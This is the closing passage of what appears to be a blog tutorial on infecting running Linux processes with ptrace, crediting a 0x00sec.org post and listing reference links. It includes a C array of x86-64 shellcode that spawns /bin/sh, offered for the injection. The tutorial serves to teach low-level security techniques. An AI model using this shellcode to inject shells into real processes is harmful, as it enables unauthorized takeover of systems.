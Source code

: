 Again, I got this tutorial from 0x00sec.org. OP is 0x00pf pico, who has shared much with the community. If it wasn't for him, I might not have learned this as quickly as I did. I hope this little writeup I did provides another way to learn the same exact material.

Lastly, here's some shellcode user _py provided to make the injection a bit easier:

```c
#define SHELLCODE_SIZE 32

/* Spawn a shell */
unsigned char *shellcode =
    "\x48\x31\xc0\x48\x89\xc2\x48\x89"
    "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
    "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
    "\x2f\x73\x68\x00\xcc\x90\x90\x90";
```

## Resources

- [Linux: Infecting Running Processes (Original Tutorial)](https://0x00sec.org/t/linux-infecting-running-processes/1097)
- [Signals in IPC on Wikipedia](https://en.wikipedia.org/wiki/Signal_(IPC))
- [Guide for Beginners: Bypassing SIGTRAP](https://0x00sec.org/t/re-guide-for-beginners-bypassing-sigtrap/2648)
- [Ptrace Documentation (man pages)](http://man7.org/linux/man-pages/man2/ptrace.2.html)
- [Wikipedia: ptrace](https://en.wikipedia.org/wiki/Ptrace)
- [pyc_inject.c Code Example](https://chris-magistrado-c74h.squarespace.com/s/pyc_inject.c)
- [0x00pf pico's Profile on 0x00sec](https://0x00sec.org/u/0x00pf)
- [0x00pf pico on Twitter](https://twitter.com/0x00pico)
